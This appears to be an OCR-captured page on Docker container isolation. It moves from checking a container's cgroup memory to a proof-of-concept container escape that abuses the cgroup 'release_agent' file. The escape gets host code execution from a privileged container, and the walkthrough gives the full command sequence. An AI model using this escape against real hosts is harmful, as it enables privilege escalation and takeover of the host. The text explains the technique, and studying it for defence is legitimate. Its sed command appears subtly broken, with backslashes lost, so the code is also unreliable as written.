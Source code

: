 Check the Cgroup of the container by running the following command:

```

cat /sys/fs/cgroup/memory/docker/[CONTAINER ID]/memory.usage_in_bytes


```


This will display the current memory usage of the container in bytes.

By using PID and Cgroup, we can ensure that the processes and resources within the container are properly isolated and managed.



## Created Group release agent (container escape).
MITRE: Privilege Escalation

The PoC relied on another misconfiguration where the container has elevated privileges, either by the --privileged flag or the apparmor=unconfined flag. The escape can be triggered by an exploit using the Linux cgroups (control groups) mechanism and a ‘release_agent’ file.

Linux control groups are intended to allow multiple Docker containers to run in isolation while limiting and monitoring their use of resources. However, the ‘release_agent’ file contains a command that is executed by the kernel with full privileges on the host once the last task in a cgroup terminates. The PoC abuses this functionality by creating a ‘release_agent’ file with a malicious command, and then killing off all the tasks in the cgroup.

As the cgroup files are present both in the container and on the host, it is possible to modify them from either, which means an attacker can spawn a process inside the cgroup and gain code execution on the host.


```
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*perdir=([^,]*).*/1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd

sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"


```

MITRE: Privilege Escalation